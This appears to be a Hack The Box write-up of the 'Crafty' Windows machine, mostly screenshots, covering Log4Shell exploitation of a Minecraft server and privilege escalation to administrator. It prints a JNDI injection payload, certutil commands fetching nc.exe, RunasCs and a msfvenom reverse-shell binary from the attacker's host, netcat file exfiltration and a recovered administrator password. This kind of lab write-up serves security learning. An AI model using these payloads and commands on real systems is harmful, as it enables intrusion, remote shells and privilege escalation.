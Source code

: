 ```yaml
---
title: HTB-Crafty
draft: false
tags:
  - htb
  - windows
  - easy
  - minecraft
  - log4j
  - tlauncher
  - runascs
  - jd-gui
  - jar
---
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/Crafty.png)

## Information Gathering
### Rustscan

`rustscan --addresses 10.10.11.249 --range 1-65535`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-2.png)

`sudo nmap -sVC -p 80,25565 crafty.htb`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-3.png)

## Enumeration
### HTTP - TCP 80

crafty.htb /etc/hosts

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image.png)


### TCP 25565

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-1.png)

## Log4j

Minecraft 1.16.5

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-4.png)

https://software-sinner.medium.com/exploiting-minecraft-servers-log4j-ddac7de10847


https://tlauncher.org/

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-11.png)

`sudo java -jar TLauncher.jar`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-5.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-6.png)




![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-7.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-8.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-9.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-10.png)

https://github.com/kozmer/log4j-shell-poc

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-12.png)

`sudo python3 poc.py --userip 10.10.14.36 --webport 80 --lport 4444`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-13.png)

t

`${jndi:ldap://10.10.14.36:1389/a}`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-15.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-14.png)

## Privesc: svc_minecraft to administrator


![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-16.png)

`python3 -m http.server 1234`

`certutil.exe -urlcache -split -f http://10.10.14.36:1234/nc.exe`


![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-17.png)

.\nc.exe 10.10.14.36 1235 < c:\Users\svc_minecraft\server\plugins\playercounter-1.0-SNAPSHOT.jar

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-18.png)


sudo nc -lp 1235 > playercounter-1.0-SNAPSHOT.jar

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-19.png)

### JD-GUI

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-20.png)


![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-21.png)

s67u84zKq8IXw

### RunasCs
certutil.exe -urlcache -split -f http://10.10.14.36:1234/RunasCs.exe


![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-22.png)

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.36 LPORT=1337 -f exe > rev.exe

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-23.png)

certutil.exe -urlcache -split -f http://10.10.14.36:1234/rev.exe

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-24.png)


.\RunasCs.exe administrator s67u84zKq8IXw ".\rev.exe"  

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-25.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-26.png)


## References
- https://nvd.nist.gov/vuln/detail/CVE-2021-44228
- https://software-sinner.medium.com/exploiting-minecraft-servers-log4j-ddac7de10847
- https://tlauncher.org/
- https://github.com/kozmer/log4j-shell-poc


